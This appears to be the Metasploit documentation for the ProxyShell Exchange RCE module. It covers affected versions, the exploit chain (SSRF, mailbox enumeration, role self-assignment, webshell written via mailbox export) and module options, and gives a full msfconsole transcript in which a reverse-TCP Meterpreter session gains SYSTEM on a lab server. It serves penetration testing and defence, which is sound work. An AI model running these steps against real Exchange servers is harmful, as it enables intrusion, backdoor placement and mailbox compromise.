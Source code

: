 ## Vulnerable Application

This module exploits a vulnerability on Microsoft Exchange Server that allows an attacker to bypass the authentication
(CVE-2021-31207), impersonate an arbitrary user (CVE-2021-34523) and write an arbitrary file (CVE-2021-34473) to achieve
the RCE (Remote Code Execution).

By taking advantage of this vulnerability, you can execute arbitrary commands on the remote Microsoft Exchange Server.

This vulnerability affects:

  * Exchange 2013 CU23 < 15.0.1497.15
  * Exchange 2016 CU19 < 15.1.2176.12
  * Exchange 2016 CU20 < 15.1.2242.8
  * Exchange 2019 CU8 < 15.2.792.13
  * Exchange 2019 CU9 < 15.2.858.10

*Source: [Description of the security update for Microsoft Exchange Server 2019, 2016, and 2013: April 13, 2021 (KB5001779)][1]*

### Exploit Internals

At a high level, the steps the exploit takes are as follows:

1. Build a Common Access Token corresponding to a user with the "Mailbox Import Export" role
    1. If an email address is specified using the `EMAIL` datastore option, the exploit will attempt to use the owner
    1. If no email address is specified
        1. The exploit will leverage the SSRF to issue a request to EWS and enumerate the email addresses
            * This technique was taken from [dmassland/proxyshell-poc](https://github.com/dmaasland/proxyshell-poc/blob/main/proxyshell-enumerate.py)
        1. The module will store the enumerated email addresses in a CSV file
        1. Each of the email addresses will be checked for the necessary role
    1. A common access token will be built using the verified user's SID
        * Email addresses are mapped to SIDs using a request to autodiscover and MAPI
1. A draft email is saved to the identified user's mailbox containing an encoded webshell embedded within an attachment
1. The `New-MailboxExportRequest` cmdlet is used to export the attachment and write the webshell to an accessible location
1. The exploit waits for the webshell to be written and uses it to execute OS commands
1. The webshell*, export request and draft email are all removed
    * *The webshell can only be remove automatically if the selected payload establishes a sessions (such as Meterpreter)


## Verification Steps

1. Start msfconsole
1. Do: `use exploit/windows/http/exchange_proxyshell_rce`
1. Do: `set RHOSTS [IP]`
1. Do: `run`

## Options

### EMAIL

A known email address for this organization. If specified, the user who owns the mailbox must either have the "Mailbox
Import Export" role already or have the necessary permissions to assign it to themselves. This would typically be some
sort of an administrative user. If this option is left blank, the module will enumerate all valid email addresses and
check each one for the necessary privileges.

### UseAlternatePath

Use the IIS root dir as alternate path. Default: `false`

## Advanced Options

### BackendServerName

Force the name of the backend Exchange server targeted. Default: Automatic

If not set, the automatic method will use an RPC call to detect the backend server FQDN. This is required because the
kerberos-authenticated SSRF can only be sent when the FQDN is known.

### ExchangeBasePath

The base path where Exchange is installed. Default: `C:\Program Files\Microsoft\Exchange Server\V15`

### ExchangeWritePath

The path where you want to write the backdoor. Default: `owa\auth`

You can for example, set it to: `ecp\auth`

### IISBasePath

The base path where IIS wwwroot directory is. Default: `C:\inetpub\wwwroot`

### IISWritePath

The path where you want to write the backdoor. Default: `aspnet_client`

### MapiClientApp

This is MAPI client version sent in the request.

### MaxBackendRetries

The maximum number of times to retry for targeting the backend server with the SSRF. This is useful in environments
where a Data Availability Group (DAG) is in place and causes requests to be sent to a random backend server.

## Scenarios

### Exchange 2016 CU 19 on Server 2016

```
msf > use exploit/windows/http/exchange_proxyshell_rce
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf exploit(windows/http/exchange_proxyshell_rce) > set RHOSTS 192.168.159.42
RHOSTS => 192.168.159.42
msf exploit(windows/http/exchange_proxyshell_rce) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(windows/http/exchange_proxyshell_rce) > set LHOST 192.168.159.128 
LHOST => 192.168.159.128
msf exploit(windows/http/exchange_proxyshell_rce) > check
[+] 192.168.159.42:443 - The target is vulnerable.
msf exploit(windows/http/exchange_proxyshell_rce) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Attempt to exploit for CVE-2021-34473
[*] Retrieving backend FQDN over RPC request
[*] Internal server name: win-bpid95acq7e.exchg.lan
[*] Enumerating valid email addresses and searching for one that either has the 'Mailbox Import Export' role or can self-assign it
[*] Enumerated 2 email addresses
[*] Saved mailbox and email address data to: /home/smcintyre/.msf4/loot/20210827174927_default_192.168.159.42_ad.exchange.mail_205456.txt
[+] Successfully assigned the 'Mailbox Import Export' role
[+] Proceeding with SID: S-1-5-21-2800676829-2777257591-1686523126-1000 (smcintyre@exchg.lan)
[*] Saving a draft email with subject 'ie1Y1uNnLfxL' containing the attachment with the embedded webshell
[*] Writing to: C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\n7AB4NuOznEA.aspx
[*] Waiting for the export request to complete...
[+] The mailbox export request has completed
[*] Triggering the payload
[*] Sending stage (200262 bytes) to 192.168.159.42
[+] Deleted C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\n7AB4NuOznEA.aspx
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.42:7149) at 2021-08-27 17:49:40 -0400
[*] Removing the mailbox export request
[*] Removing the draft email

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-BPID95ACQ7E
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : EXCHG
Logged On Users : 8
Meterpreter     : x64/windows
meterpreter >
```

[1]: https://support.microsoft.com/en-us/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-april-13-2021-kb5001779-8e08f3b3-fc7b-466c-bbb7-5d5aa16ef064

